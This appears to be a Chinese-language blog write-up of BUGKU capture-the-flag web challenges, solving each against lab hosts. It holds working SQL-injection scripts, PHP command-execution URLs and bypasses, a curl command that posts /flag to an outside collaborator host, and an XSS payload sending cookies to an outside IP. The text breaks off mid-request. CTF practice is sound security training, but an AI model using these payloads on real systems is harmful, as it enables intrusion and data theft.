+++
title = "BUGKU-web"
slug = "bugku-web"
description = ""
date = "2024-11-17T17:21:40"
lastmod = "2024-11-17T17:21:40"
image = ""
license = ""
categories = []
tags = ["php", "Log4j2", "mysql", "pickle", "xss"]
+++

# 滑稽

```http
GET / HTTP/1.1
Host: 114.67.175.224:12728
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close


```

# 计算器

这个题有点懵逼，只能输入一位我是想抓包写脚本拿flag的，结果直接就刚好遇到一个，算对就有flag了

# alert

我用Chrome一直弹窗，然后换了Firefox直接取消弹窗看源代码解码即可

# 你必须让他停下

抓住机会查看源代码即可

```html

<html>
<head>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<meta name="description" content="">
<meta name="author" content="">
<title>Dummy game</title>
</head>

<script language="JavaScript">
function myrefresh(){
window.location.reload();
}
setTimeout('myrefresh()',500); 
</script>
<body>
<center><strong>I want to play Dummy game with others£¡But I can't stop!</strong></center>
<center>Stop at panda ! u will get flag</center>
<center><div></div></center><br><a style="display:none">flag{080fbeb5341a1bafb531fc130a74f7c1}</a></body>
</html>
```

# 头等舱

F12然后HTTP头里面有flag

# GET

```
http://114.67.175.224:15269/?what=flag
```

# POST

```
POST:
what=flag
```

# source

查看源码发现应该是要用githack

```shell
githacker --url http://114.67.175.224:14120/.git/ --output-folder './test'

git log --reflog

git show
git reset --hard e0b8e8e2df0e08f9719df35b8cf68ab4cbd8d3b0
```

结果还出不来，没得到完整

```shell
wget -r http://114.67.175.224:14120/.git

┌──(kali㉿kali)-[~/桌面/114.67.175.224:14120]
└─$ git reflog
d256328 (HEAD -> master) HEAD@{0}: reset: moving to d25632
13ce8d0 HEAD@{1}: commit: flag is here?
fdce35e HEAD@{2}: reset: moving to fdce35e
e0b8e8e HEAD@{3}: reset: moving to e0b8e
40c6d51 HEAD@{4}: commit: flag is here?
fdce35e HEAD@{5}: commit: flag is here?
d256328 (HEAD -> master) HEAD@{6}: commit: flag is here?
e0b8e8e HEAD@{7}: commit (initial): this is index.html

┌──(kali㉿kali)-[~/桌面/114.67.175.224:14120]
└─$ git show 40c6d51
commit 40c6d51b81775a1590c1b051d9562222e41c4741
Author: vFREE <flag@flag.com>
Date:   Sun Jan 17 20:34:43 2021 +0800

    flag is here?

diff --git a/flag.txt b/flag.txt
index aa6f6dc..726e5d1 100644
--- a/flag.txt
+++ b/flag.txt
@@ -1 +1 @@
-flag{nonono}
+flag{git_is_good_distributed_version_control_system}

```

# 矛盾

```php
$num=$_GET['num'];
if(!is_numeric($num))
{
echo $num;
if($num==1)
echo 'flag{**********}';
}
```

`%00`截断就行

```
http://114.67.175.224:18871/?num=1%00
```

# 备份是个好习惯

扫描出来然后

```php
<?php

include_once "flag.php";
ini_set("display_errors", 0);
$str = strstr($_SERVER['REQUEST_URI'], '?');
$str = substr($str,1);
$str = str_replace('key','',$str);
// 双写绕过
parse_str($str);
// 变量覆盖
echo md5($key1);
echo md5($key2);
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."取得flag";
}
?>
```

```
http://114.67.175.224:12908/?kkeyey1=QNKCDZO&kkeyey2=s214587387a
```

# 变量1

```php
<?php  
error_reporting(0);
include "flag1.php";
highlight_file(__file__);
if(isset($_GET['args'])){
    $args = $_GET['args'];
    if(!preg_match("/^\w+$/",$args)){
        die("args error!");
    }
    eval("var_dump($$args);");
}
?>
```

这里可变变量直接输出flag就好了

```
args=GLOBALS
$$args=$GLOBALS
```

# 本地管理员

查看源代码拿到密码

```http
POST / HTTP/1.1
Host: 114.67.175.224:11228
Content-Length: 23
Pragma: no-cache
Cache-Control: no-cache
Origin: http://114.67.175.224:11228
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://114.67.175.224:11228/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
x-forwarded-for: 127.0.0.1
Connection: close

pass=test123&user=admin
```

# game1

查看源代码重要的就是这一部分

```js
function overShowOver() {
    $('#modal').show();
    $('#over-modal').show();
    var ppp='180.84.29.90';
    var sign = Base64.encode(score.toString());
    xmlhttp.open("GET", "score.php?score=" + score + "&ip=" + ppp + "&sign=" + sign, true);
    xmlhttp.send();
    $('#over-zero').show();
}
```

我们是可以任意进行覆盖分数的

```http
GET /score.php?score=75&ip=180.84.29.90&sign=zMNzU=== HTTP/1.1
Host: 114.67.175.224:13710
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: */*
Referer: http://114.67.175.224:13710/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; HMACCOUNT=405D29F9AFFEA4E6; _ga=GA1.1.1320821268.1731844587; _gid=GA1.1.1851908107.1731844587; Hm_lpvt_c1b044f909411ac4213045f0478e96fc=1731844789; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0
Connection: close


```

那这里直接覆盖就好了

```http
GET /score.php?score=9999&ip=180.84.29.90&sign=zMOTk5OTk= HTTP/1.1
Host: 114.67.175.224:13710
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: */*
Referer: http://114.67.175.224:13710/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; HMACCOUNT=405D29F9AFFEA4E6; _ga=GA1.1.1320821268.1731844587; _gid=GA1.1.1851908107.1731844587; Hm_lpvt_c1b044f909411ac4213045f0478e96fc=1731844789; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0
Connection: close


```

# 源代码

拿到源代码之后在控制台把结果打印出来

```js
var p1 = '%66%75%6e%63%74%69%6f%6e%20%63%68%65%63%6b%53%75%62%6d%69%74%28%29%7b%76%61%72%20%61%3d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%70%61%73%73%77%6f%72%64%22%29%3b%69%66%28%22%75%6e%64%65%66%69%6e%65%64%22%21%3d%74%79%70%65%6f%66%20%61%29%7b%69%66%28%22%36%37%64%37%30%39%62%32%62';
var p2 = '%61%61%36%34%38%63%66%36%65%38%37%61%37%31%31%34%66%31%22%3d%3d%61%2e%76%61%6c%75%65%29%72%65%74%75%72%6e%21%30%3b%61%6c%65%72%74%28%22%45%72%72%6f%72%22%29%3b%61%2e%66%6f%63%75%73%28%29%3b%72%65%74%75%72%6e%21%31%7d%7d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%6c%65%76%65%6c%51%75%65%73%74%22%29%2e%6f%6e%73%75%62%6d%69%74%3d%63%68%65%63%6b%53%75%62%6d%69%74%3b';
console.log(unescape(p1) + unescape('%35%34%61%61%32' + p2));
```

```js
 function checkSubmit() {
            var a = document.getElementById("password");
            
            if (typeof a !== "undefined") {
                if ("67d709b2b54aa2aa648cf6e87a7114f1" === a.value) {
                    return true; // 密码正确，允许提交
                }
                alert("Error"); // 密码错误，显示错误提示
                a.focus(); // 聚焦到密码输入框
                return false; // 阻止表单提交
            }
        }

        document.getElementById("levelQuest").onsubmit = checkSubmit; // 设置表单的提交事件
```

# 网站被黑

提示里面说了是后门直接访问`shell.php`，密码爆破即可`hack`

# bp

爆破密码就可以了，这里不放图了

```js
var r = {code: 'bugku10000'}
  if(r.code == 'bugku10000'){
        console.log('e');
	document.getElementById('d').innerHTML = "Wrong account or password!";
  }else{
        console.log('0');
        window.location.href = 'success.php?code='+r.code;
  }
```



这里填进去直接复制粘贴比较好不然一直弄不出来，`zxc123`

# 好像需要密码

一样的爆破只不过这里是纯五位数字



`12468`

# shell

```php
<?php
$poc = "a#s#s#e#r#t"; // 定义一个包含 # 的字符串
$poc_1 = explode("#", $poc); // 按 # 分隔字符串，得到数组

// 拼接数组中的元素，形成函数名
$poc_2 = $poc_1[0] . $poc_1[1] . $poc_1[2] . $poc_1[3] . $poc_1[4] . $poc_1[5];

// 调用函数，并将来自 GET 请求的参数 's' 传递给它
$poc_2($_GET['s']);
?>
```

这里直接给了shell

```
http://114.67.175.224:14442/?s=system("cat flaga15808abee46a1d5.txt");
```

# eval

```php
<?php
    include "flag.php";
    $a = @$_REQUEST['hello'];
    eval( "var_dump($a);");
    show_source(__FILE__);
?>
```

```
http://114.67.175.224:10148/?hello=system("tac f*")
```

# 需要管理员

`robots.txt`得到`/resusl.php`

```php
if ($_GET[x]==$password)
```

```
http://114.67.175.224:19770/resusl.php?x=admin
```

# 程序员本地网站

```http
GET / HTTP/1.1
Host: 114.67.175.224:11563
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; HMACCOUNT=405D29F9AFFEA4E6; _ga=GA1.1.1320821268.1731844587; _gid=GA1.1.1851908107.1731844587; Hm_lpvt_c1b044f909411ac4213045f0478e96fc=1731844789; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0; isview=12468
x-forwarded-for: 127.0.0.1
Connection: close


```

# 你从哪里来

```http
GET / HTTP/1.1
Host: 114.67.175.224:18705
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; HMACCOUNT=405D29F9AFFEA4E6; _ga=GA1.1.1320821268.1731844587; _gid=GA1.1.1851908107.1731844587; Hm_lpvt_c1b044f909411ac4213045f0478e96fc=1731844789; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0; isview=12468
referer: www.google.com
Connection: close


```

# 前女友

```php
<?php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];
    $v3 = $_GET['v3'];
    if($v1 != $v2 && md5($v1) == md5($v2)){
        if(!strcmp($v3, $flag)){
            echo $flag;
        }
    }
}
?>
```

```
http://114.67.175.224:12414/?v1[]=1&v2[]=2&v3[]=2
```

这里全部用数组绕过

# MD5

数组绕过不了，碰撞弱等于？

```
http://114.67.175.224:16094/?a=240610708
```

# 各种绕过哟

```php
<?php
highlight_file('flag.php');
$_GET['id'] = urldecode($_GET['id']);
$flag = 'flag{xxxxxxxxxxxxxxxxxx}';
if (isset($_GET['uname']) and isset($_POST['passwd'])) {
    if ($_GET['uname'] == $_POST['passwd'])

        print 'passwd can not be uname.';

    else if (sha1($_GET['uname']) === sha1($_POST['passwd'])&($_GET['id']=='margin'))

        die('Flag: '.$flag);

    else

        print 'sorry!';

}
?>
```

```
http://114.67.175.224:11633/?id=%6d%61%72%67%69%6e&uname[]=1
POST:
passwd[]=2
```

# 秋名山车神

脚本题

```python
import requests
import re

url="http://114.67.175.224:18454/"
s=requests.Session()

r=s.get(url)
equation=re.search(r'(\d+[+\-*])+(\d+)',r.text).group()
for i in range(0,50):
    result=eval(equation)
    key={'value':result}
    response=s.post(url=url,data=key)
    print(response.text)
    if "flag" in response.text:
        break
```

# 速度要快

发包得到假的flag，其中进行了两层的base64编码

```http
POST / HTTP/1.1
Host: 114.67.175.224:18292
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; HMACCOUNT=405D29F9AFFEA4E6; _ga=GA1.1.1320821268.1731844587; _gid=GA1.1.1851908107.1731844587; Hm_lpvt_c1b044f909411ac4213045f0478e96fc=1731844789; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0; isview=12468; PHPSESSID=3q824q2rr6j4ee6uubk428j9t0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

margin=917329
```

进行发包之后发现这个东西，每次都会变，那么就写个脚本吧

```python
import requests
import base64

url="http://114.67.175.224:18292/"
s=requests.Session()
for i in range(0,50):
    r=s.get(url)
    header_flag=r.headers['flag']
    header_flag_decoded=base64.b64decode(header_flag)
    header_flag=header_flag_decoded.decode()

    value=header_flag.split("flag吧: ")[1]
    v=base64.b64decode(value)
    v=v.decode('utf-8')
    # print(v)
    response=s.post(url=url,data={"margin":v})
    print(response.text)
    if "flag" in response.text:
        break
        print(response.text)

```

# file_get_contents

```php
<?php
extract($_GET);

if (!empty($ac)) {
    $f = trim(file_get_contents($fn));

    if ($ac === $f) {
        echo "<p>This is flag: $flag</p>";
    } else {
        echo "<p>sorry!</p>";
    }
}
?>
```

这里直接绕过就可以了使用`php://input`

```http
POST /?ac=1&fn=php://input HTTP/1.1
Host: 114.67.175.224:18164
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; HMACCOUNT=405D29F9AFFEA4E6; _ga=GA1.1.1320821268.1731844587; _gid=GA1.1.1851908107.1731844587; Hm_lpvt_c1b044f909411ac4213045f0478e96fc=1731844789; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0; isview=12468; PHPSESSID=3q824q2rr6j4ee6uubk428j9t0
Connection: close
Content-Length: 1
Content-Type: application/x-www-form-urlencoded

1
```

# 成绩查询

`#`注释即可

```sql
id=-1'union select 1,(select group_concat(schema_name) from information_schema.schemata),3,4%23
information_schema,mysql,skctf,test

id=-1'union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='skctf'),3,4%23
fl4g,sc

id=-1'union select 1,(select group_concat(column_name) from information_schema.columns where table_name='fl4g'),3,4%23
skctf_flag

id=-1'union select 1,(select group_concat(skctf_flag) from fl4g),3,4%23
```

# no select

万能密码

```sql
1' or 1=1#
```

# login2

```sql
$sql="SELECT username,password FROM admin WHERE username='".$username."'";
if (!empty($row) && $row['password']===md5($password)){
}
```

这里密码可控，直接写

```http
POST /login.php HTTP/1.1
Host: 114.67.175.224:13441
Content-Length: 75
Cache-Control: max-age=0
Origin: http://114.67.175.224:13441
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://114.67.175.224:13441/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; _ga=GA1.1.1320821268.1731844587; _gid=GA1.1.1851908107.1731844587; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0; PHPSESSID=uukfhesjl5h1t0mvdch88ome03
Connection: close

username=1'+union+select+1,'c4ca4238a0b923820dcc509a6f75849b'--+&password=1
```

进来之后以为是命令执行，试了好久发现延时注入那么也就是无回显，直接试试外带

```python
1;curl -X POST -F xx=@/flag  http://s0tkq771hedhphubgxb7wvdmvd15pu.oastify.com
```

# sql注入

慢慢测，先fuzz，发现用户名可以注入

```sql
'or(1<>1)# username does not exist!
'or(1<>2)# password error!

'or(length(database())>7)# password error!

'or(length(database())>8)# username does not exist!
```

```sql
substr(‘flag’ from 1)--------------->返回：flag
substr(‘flag’ from 2)--------------->返回：lag
substr(‘flag’ from 3)--------------->返回：ag
substr(‘flag’ from 4)--------------->返回：g

substr((reverse(substr(‘flag’ form 1))) from 4 )------------->返回：f
substr((reverse(substr(‘flag’ form 2))) from 3 )------------->返回：l
substr((reverse(substr(‘flag’ form 3))) from 2 )------------->返回：a
substr((reverse(substr(‘flag’ form 4))) from 1 )------------->返回：g
```

这里直接写exp

```python
import requests

url = 'http://114.67.175.224:18214/index.php'

database = ''

# for i in range(1, 9):
#     for p in range(95, 122):
#         m = 9 - i
#         payload = "1'or(ord(substr(reverse(substr((database())from({})))from({})))<>{})#".format(i, m, p)
#         data = {
#             'username': payload,
#             'password': '1'
#         }
#         res = requests.post(url=url, data=data)
#         if "username does not exist!" in res.text:
#             database += chr(p)
#             print(database)
#             break

password = ''

for i in range(1, 33):
    for p in range(45, 126):
        m = 33 - i
        payload = "1'or(ord(substr(reverse(substr((select(group_concat(password))from(blindsql.admin))from({})))from({})))<>{})#".format(i, m, p)
        data = {
            'username': payload,
            'password': '1'
        }
        res = requests.post(url=url, data=data)
        if "username does not exist!" in res.text:
            password += chr(p)
            print(password)


```

不是我说这平台真的卡的日牛，跑这么慢

```
admin
bugkuctf
```

还有表名我也跑不了，哎蚌埠

# 都过滤了

懒得喷，跑不出来，但是看上一道题猜进去了

```python
import requests

url = "http://114.67.175.224:18597/login.php"

password = ""
for i in range(1, 100):
    payload1 = "admin'^(length(passwd)=" + str(i) + ")^'"
    data = {
        'uname': payload1,
        'passwd': '123'
    }
    r = requests.post(url=url, data=data)
    if "username error!!@_@" in r.text:
        print("密码的长度是"+str(i))
        break
for i in range(1, 33):
    for j in '0123456789abcdefghijklmnopqrstuvwxyz':
        payload = "admin'-(ascii(mid((passwd)from(" + str(i) + ")))=" + str(ord(j)) + ")-'"
        data = {
        'uname': payload,
        'passwd': '123'
        }
        r = requests.post(url=url, data=data)
        #print(r.content)
        if "username error!!@_@" in r.text:
            password += j
            print(password)
            break
print("密码是"+password)
```

```
admin
bugkuctf
```

```
cat</flag
```

# login1

直接注册覆盖

```
admin                                                                                                                                                                                                                                                                                                                                                                                                            
Wi123456
```

# 留言板

先扫

```
/admin.php
```

没啥用不知道密码，直接打算了

```js

```

长度超过了

```js
<body onload="window.open('http://156.238.233.93:9999/'+document.cookie)">
```

被转义了，没有打通，看wp有这个文件，这是多少年前的吧，现在访问直接404

```sql
# Host: localhost  (Version: 5.5.53)
# Date: 2019-08-04 16:13:22
# Generator: MySQL-Front 5.3  (Build 4.234)
 
/*!40101 SET NAMES utf8 */;
 
#
# Structure for table "text"
#
 
CREATE DATABASE xss DEFAULT CHARACTER SET utf8;
use xss; 
 
DROP TABLE IF EXISTS `text`;
CREATE TABLE `text` (
  `Id` int(11) NOT NULL AUTO_INCREMENT,
  `text` varchar(255) DEFAULT NULL,
  PRIMARY KEY (`Id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;
 
#
# Data for table "text"
#
 
/*!40000 ALTER TABLE `text` DISABLE KEYS */;
/*!40000 ALTER TABLE `text` ENABLE KEYS */;
 
#
# Structure for table "user"
#
 
DROP TABLE IF EXISTS `user`;
CREATE TABLE `user` (
  `Id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) DEFAULT NULL,
  `password` varchar(255) DEFAULT NULL,
  PRIMARY KEY (`Id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;
 
#
# Data for table "user"
#
 
/*!40000 ALTER TABLE `user` DISABLE KEYS */;
INSERT INTO `user` VALUES (1,'admin','011be4d65feac1a8');
/*!40000 ALTER TABLE `user` ENABLE KEYS */;
```

登录之后又弹窗

```js
<script>alert(document.cookie)</script>
```

# 留言板1

现在的平台已经用不了了emm难绷

# 文件包含

```
http://114.67.175.224:18683/index.php?file=/flag
```

# cookies

```
http://114.67.175.224:14505/index.php?line=&filename=L2ZsYWc=
```

然后cookie里面有flag

# never_give_up

源码里面`1p.html`

```js
var Words ="%3Cscript%3Ewindow.location.href%3D'http%3A%2F%2Fwww.bugku.com'%3B%3C%2Fscript%3E%20%0A%3C!--JTIyJTNCaWYoISUyNF9HRVQlNUInaWQnJTVEKSUwQSU3QiUwQSUwOWhlYWRlcignTG9jYXRpb24lM0ElMjBoZWxsby5waHAlM0ZpZCUzRDEnKSUzQiUwQSUwOWV4aXQoKSUzQiUwQSU3RCUwQSUyNGlkJTNEJTI0X0dFVCU1QidpZCclNUQlM0IlMEElMjRhJTNEJTI0X0dFVCU1QidhJyU1RCUzQiUwQSUyNGIlM0QlMjRfR0VUJTVCJ2InJTVEJTNCJTBBaWYoc3RyaXBvcyglMjRhJTJDJy4nKSklMEElN0IlMEElMDllY2hvJTIwJ25vJTIwbm8lMjBubyUyMG5vJTIwbm8lMjBubyUyMG5vJyUzQiUwQSUwOXJldHVybiUyMCUzQiUwQSU3RCUwQSUyNGRhdGElMjAlM0QlMjAlNDBmaWxlX2dldF9jb250ZW50cyglMjRhJTJDJ3InKSUzQiUwQWlmKCUyNGRhdGElM0QlM0QlMjJidWdrdSUyMGlzJTIwYSUyMG5pY2UlMjBwbGF0ZWZvcm0hJTIyJTIwYW5kJTIwJTI0aWQlM0QlM0QwJTIwYW5kJTIwc3RybGVuKCUyNGIpJTNFNSUyMGFuZCUyMGVyZWdpKCUyMjExMSUyMi5zdWJzdHIoJTI0YiUyQzAlMkMxKSUyQyUyMjExMTQlMjIpJTIwYW5kJTIwc3Vic3RyKCUyNGIlMkMwJTJDMSkhJTNENCklMEElN0IlMEElMDklMjRmbGFnJTIwJTNEJTIwJTIyZmxhZyU3QioqKioqKioqKioqJTdEJTIyJTBBJTdEJTBBZWxzZSUwQSU3QiUwQSUwOXByaW50JTIwJTIybmV2ZXIlMjBuZXZlciUyMG5ldmVyJTIwZ2l2ZSUyMHVwJTIwISEhJTIyJTNCJTBBJTdEJTBBJTBBJTBBJTNGJTNF--%3E" 
function OutWord()
{
var NewWords;
NewWords = unescape(Words);
document.write(NewWords);
} 
OutWord();
```

这里解码base64再url解码

```php
";if(!$_GET['id'])
{
	header('Location: hello.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
	echo 'no no no no no no no';
	return ;
}
$data = @file_get_contents($a,'r');
if($data=="bugku is a nice plateform!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
	$flag = "flag{***********}"
}
else
{
	print "never never never give up !!!";
}
?>
```

绕过`file_get_contents`昨天还做了的`b`的话用通配符就可以绕过了

`ereg()` 函数或 `eregi()` 函数存在空字符截断漏洞，即参数中的正则表达式或待匹配字符串遇到空字符则截断丢弃后面的数据。

```http
POST /hello.php?id=0a&a=php://input&b=?12345 HTTP/1.1
Host: 114.67.175.224:17120
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; _ga=GA1.1.1320821268.1731844587; _gid=GA1.1.1851908107.1731844587; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0; PHPSESSID=uukfhesjl5h1t0mvdch88ome03; flag=flag%7B67e7bb4eb5eee5456d01992aeb60ac21%7D
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

bugku+is+a+nice+plateform!
```

```
http://114.67.175.224:17120/hello.php?id=0b&a=data://text/plain,bugku is a nice plateform!&b=?12345
```

# 文件包含2

```
http://114.67.175.224:16529/index.php?file=/flag
```

# ezbypass

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

if (isset($_POST['code'])) {
    $code = $_POST['code'];
    if (strlen($code) <= 105){
        if (is_string($code)) {
            if (!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",$code)){
                eval($code);
            } else {
                echo "Hacked!";
            }
        } else {
            echo "You need to pass in a string";
        }
    } else {
            echo "long?";
    }
}
```

无字母参数RCE

```php
<?php
$_=(_/_._)[_];
$_++;
$__=$_.$_++;
$_++;$_++;$_++;
$__=$__.$_;
$_++;
$__=$__.$_;
$_=_.$__;
var_dump($_);
// _POST
```

```php
$$_[_]($$_[__])
```

最后是

```http
POST / HTTP/1.1
Host: 114.67.175.224:18715
Content-Length: 245
Pragma: no-cache
Cache-Control: no-cache
Origin: http://114.67.175.224:18715
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://114.67.175.224:18715/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; _ga=GA1.1.1320821268.1731844587; _gid=GA1.1.1851908107.1731844587; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0; PHPSESSID=uukfhesjl5h1t0mvdch88ome03; flag=flag%7B67e7bb4eb5eee5456d01992aeb60ac21%7D
Connection: close

